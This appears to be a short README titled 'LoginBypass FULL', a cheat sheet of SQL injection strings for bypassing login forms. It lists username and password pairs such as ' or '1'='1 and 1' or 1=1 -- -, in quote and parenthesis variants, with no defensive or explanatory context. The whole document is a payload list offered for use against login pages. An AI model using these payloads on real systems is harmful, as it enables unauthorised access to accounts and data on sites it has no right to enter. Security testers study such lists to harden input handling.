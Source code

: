 # LoginBypass FULL
SQL Injection Login page 

Cheat sheet

| User name  | 	Password |
| ------------- | ------------- |
| serhat	  | ' or '1'='1	  |
| serhat  | ' or 1='1	  |
| beysehir  | 1' or 1=1 -- -	  |
| serhat  | ' or '1'='1	  |
| ankara  | ') or 1=('1		  |
| serhat  | ') or 1=(1)-- -	  |
| ') or 1=('1  | hadilen	  |
| serhat  | ") or 1=("1		  |
| admin  | ") or 1=(1)-- -	  |
| serhat  | ") or 1=("1	  |
| ' or '1'='1'#  | sonuncu	  |

